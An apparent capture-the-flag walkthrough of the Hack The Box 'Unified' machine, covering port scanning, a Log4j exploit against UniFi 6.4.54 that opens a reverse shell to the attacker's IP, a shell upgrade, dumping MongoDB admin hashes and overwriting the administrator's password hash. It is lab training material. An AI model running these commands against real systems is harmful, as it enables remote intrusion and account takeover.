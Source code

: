 # Unified

## Summary

Part of Starting Point's Tier 2 boxes, [Unified](https://app.hackthebox.com/starting-point) revolves around exploiting the **Log4j vulnerability**. Securing the initial foothold entails identifying the application's version through meticulous **enumeration of the web server**. Subsequently, **leveraging a readily available** [**PoC**](#user-content-fn-1)[^1] allows us to gain access to the application using the `administrator` account. Further reconnaissance within the site exposes **plaintext SSH credentials**, allowing us to root the box.

<table><thead><tr><th width="88" align="right">Step</th><th width="249">Action</th><th width="124">Tool</th><th>Gained</th></tr></thead><tbody><tr><td align="right">1</td><td>Web server enumeration</td><td>Browser</td><td>Web app's version</td></tr><tr><td align="right">2</td><td>Researching</td><td>Browser</td><td>Log4j vulnerability &#x26; <a data-footnote-ref href="#user-content-fn-1">PoC</a></td></tr><tr><td align="right">3</td><td>Using <a data-footnote-ref href="#user-content-fn-1">PoC</a></td><td><a data-footnote-ref href="#user-content-fn-1">PoC</a></td><td>Foothold</td></tr><tr><td align="right">4</td><td>Updating admin's password</td><td><a href="https://linux.die.net/man/1/mongo">mongo</a></td><td>Web application credentials</td></tr><tr><td align="right">5</td><td>Web server enumeration</td><td>Browser</td><td>Privilege escalation</td></tr></tbody></table>

## Recon

### Port Scan

As always, let's start with a port scan. For efficiency, we will run a fast (`-T5 --min-rate 10000`) all-ports (`-p-`) scan first to find out which of them are open (`-open`), and then we will do a version scanning (`-sV`) as well as use Nmap's default scripts (`-sC`) against open ports only.

{% code overflow="wrap" %}
```bash
# Scanning all ports at maximum speed
$ sudo nmap 10.129.158.126 -T5 --min-rate 10000 -open -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-26 17:37 BST
Nmap scan report for 10.129.158.126
Host is up (0.038s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
6789/tcp open  ibm-db2-admin
8080/tcp open  http-proxy
8443/tcp open  https-alt
8843/tcp open  unknown
8880/tcp open  cddbp-alt

Nmap done: 1 IP address (1 host up) scanned in 8.10 seconds
# Version-scanning the specified ports at max speed plus using default scripts
$ sudo nmap 10.129.158.126 -T5 --min-rate 10000 -p 22,6789,8080,8443,8843,8880 -sC -sV
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.3
<SNIP>
6789/tcp open  ibm-db2-admin?
8080/tcp open  http-proxy
|_http-title: Did not follow redirect to https://10.129.158.126:8443/manage
|_http-open-proxy: Proxy might be redirecting requests
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.1 404
<SNIP>
8443/tcp open  ssl/nagios-nsca Nagios NSCA
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
| Not valid before: 2021-12-30T21:37:24
|_Not valid after:  2024-04-03T21:37:24
| http-title: UniFi Network
|_Requested resource was /manage/account/login?redirect=%2Fmanage
8843/tcp open  ssl/unknown
| ssl-cert: Subject: commonName=UniFi/organizationName=Ubiquiti Inc./stateOrProvinceName=New York/countryName=US
| Subject Alternative Name: DNS:UniFi
<SNIP>
8880/tcp open  cddbp-alt?
```
{% endcode %}

Based on Nmap's output, we can note some things down:

* There is an SSH port open (`22`) which might represent the way to access the box.
* There is an HTTP port (`8080`) which redirects to `https://10.129.158.126:8443/manage` which seems interesting.
* The port `6789` seems to be used for an application called [UniFi Mobile Speed Test](https://help.ui.com/hc/en-us/articles/218506997-UniFi-Network-Required-Ports-Reference).
* The last port (`8880`) is related with a protocol called [CDDB](https://linux.die.net/man/3/cddb) and it's also related with the [UniFi Network](https://help.ui.com/hc/en-us/articles/218506997-UniFi-Network-Required-Ports-Reference).

### Web Server Enumeration

By visiting the redirected URL we found above, we land on the UniFi login page which also include its version: `6.4.54` (Figure 1).

<figure><img src="../../.gitbook/assets/unified_home.png" alt=""><figcaption><p>Figure 1: The UniFi login page along with its version.</p></figcaption></figure>

## Foothold

### Log4j

Since we know the application's version, we can check if any known vulnerability exists. Doing that, reveals the [Log4j vulnerability](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) (Figure 2.1) as well as a [GitHub repository ](https://github.com/puzzlepeaches/Log4jUnifi)with a PoC[^1] (Figure 2.2).

<figure><img src="../../.gitbook/assets/unified_google.png" alt=""><figcaption><p>Figure 2: Rsearching known vulnerabities for <code>UniFi 6.4.54</code>.</p></figcaption></figure>

The [SprocketSecurity article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi) includes both an [exploitation](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#exploitation) and a [post-exploitation](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitation) route, but let's first try the PoC as it involves less steps. By opening a listener (Figure 3.1) and following the PoC's execution instructions (Figure 3.2), we indeed achieve RCE[^2] and secure our foothold (Figure 3.3).

```bash
# executing the PoC
sudo python3 exploit.py -u https://10.129.96.149:8443 -i 10.10.14.147 -p 1337
```

<figure><img src="../../.gitbook/assets/unified_rce.png" alt=""><figcaption><p>Figure 3: Establishing our initial foothold.</p></figcaption></figure>

### Shell Upgrade

Before searching for the flag, we can first upgrade our shell (Figure 4).

{% hint style="info" %}
Check more about shell upgrades [here](broken-reference).
{% endhint %}

```bash
# Checking if script is available
which script
# Spawning the bash shell
script /dev/null -c /bin/bash
# Backgrounding the shell (CTRL+Z)
^Z
# Checking the configurations of our local shell
echo $TERM && stty size
# Disabling echo, passing I/O straight through, and foregrounding the shell
stty raw -echo; fg
# Setting terminals dimensions
stty rows 51 cols 209
# Exproting terminal
export TERM=xterm
```

<figure><img src="../../.gitbook/assets/unified_shell_upg.png" alt=""><figcaption><p>Figure 4: Upgrading our shell with <code>script</code>.</p></figcaption></figure>

We can now read the `user.txt` flag within the home directory of the sole user of the box.

```bash
# Checking users
unifi@unified:/unifi/data$ ls /home
michael
# Reading the user flag
unifi@unified:/unifi/data$ cat /home/michael/user.txt
6ce<REDACTED>127
```

## Privilege Escalation

### Mongodb Exploitation

The [post-exploitation part](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitationcrackinghashes) of the article refers to a mongodb DBMS[^3] from which we can dump password hashes from. Let's check if we can do that (Figure 5).

```bash
# Dumping the password hashes
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```

<figure><img src="../../.gitbook/assets/unified_dump.png" alt=""><figcaption><p>Figure 5: Dumping hashes from the mongodb database.</p></figcaption></figure>

Next, according to the [article](https://www.sprocketsecurity.com/resources/another-log4j-on-the-fire-unifi#postexploitationshadowadmin), we can encrypt a new password (Figure 6.1) and use it to change the `administrator`'s password (Figure 6.2), so we can then use it to log in into the UniFi portal as a privileged user (Figure 7).

{% code overflow="wrap" %}
```bash
# Encrypting the new password
mkpasswd -m sha-512 Password123!
# Changing the administrator's password
mongo --port 27117 ace --eval 'db.admin.update({"_id" : ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$Zpy/bK4oaMXbjkwG$gPVsT76.dDkLpzgvEZm39v2kvkqfytwFzuzOHOW5MmkgFtN9UXDbg0FZ58hckZEq2g83mE9bWNqXDi6itVvd91"}})'
```
{% endcode %}

<figure><img src="../../.gitbook/assets/unified_change_pass.png" alt=""><figcaption><p>Figure 6: Changing the <code>administrator</code>'s password.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/unified_admin_login.png" alt=""><figcaption><p>Figure 7: Logging in as <code>administrator</code>.</p></figcaption></figure>

### UniFi Enumeration

By enumerating the UniFi portal, we can find the `root`'s plaintext password (Figure 8) which we can use right away and read the `root.txt` flag 🚩 (Figure 9).

<figure><img src="../../.gitbook/assets/unified_root_pass.png" alt=""><figcaption><p>Figure 8: Enumerating the <code>root</code>'s SSH password.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/unified_root.png" alt=""><figcaption><p>Figure 9: Reading the root flag.</p></figcaption></figure>

[^1]: Proof of Concept

[^2]: Remote Command Execution

[^3]: Database Management System
